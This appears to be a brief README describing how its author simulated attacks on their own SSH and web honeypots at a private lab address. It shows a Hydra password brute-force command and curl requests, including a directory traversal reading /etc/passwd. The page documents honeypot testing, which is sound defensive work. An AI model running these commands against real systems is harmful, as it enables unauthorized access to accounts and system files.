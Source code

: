 # Below is how I simulated attacts on my honeypots

 
## I used Hydra to simulate this attack os ssh: 
```bash
hydra -l honeypotuser -P /path/to/your/passwordlist.txt ssh://192.168.1.200:2323
```
This will attempt various passwords for the user honeypotuser on your SSH honeypot. 

## And on Web I used tools like curl to simulate these attacks:

### Directory Traversal:
```bash
 curl "http://192.168.1.200/index.php?page=../../../../etc/passwd"
```
### Admin Page Access:
```bash
 curl "http://192.168.1.200/admin"
```
### Exploiting CGI (if PHP or similar is installed I did do as mine was basic html):
```bash
 curl -X POST "http://192.168.1.200/cgi-bin/php.cgi"
```
